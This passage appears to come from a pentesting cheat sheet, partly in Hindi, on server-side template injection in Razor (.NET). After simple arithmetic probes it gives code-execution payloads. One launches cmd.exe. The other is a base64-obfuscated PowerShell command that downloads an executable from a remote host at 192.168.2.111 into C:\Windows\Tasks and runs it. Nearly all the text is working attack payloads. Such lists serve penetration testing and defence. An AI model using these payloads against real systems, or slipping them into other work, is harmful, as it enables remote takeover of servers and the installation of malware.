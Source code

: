 <figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*3RO051EgizbEer-mdHD8Kg.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*3RO051EgizbEer-mdHD8Kg.jpeg</a></p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*GY1Tij_oecuDt4EqINNAwg.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*GY1Tij_oecuDt4EqINNAwg.jpeg</a></p></figcaption></figure>

* अधिक जानकारी [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

### Razor (.Net)

* `@(2+2) <= Success`
* `@() <= Success`
* `@("{{code}}") <= Success`
* `@ <=Success`
* `@{} <= ERROR!`
* `@{ <= ERRROR!`
* `@(1+2)`
* `@( //C#Code )`
* `@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");`
* `@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");`
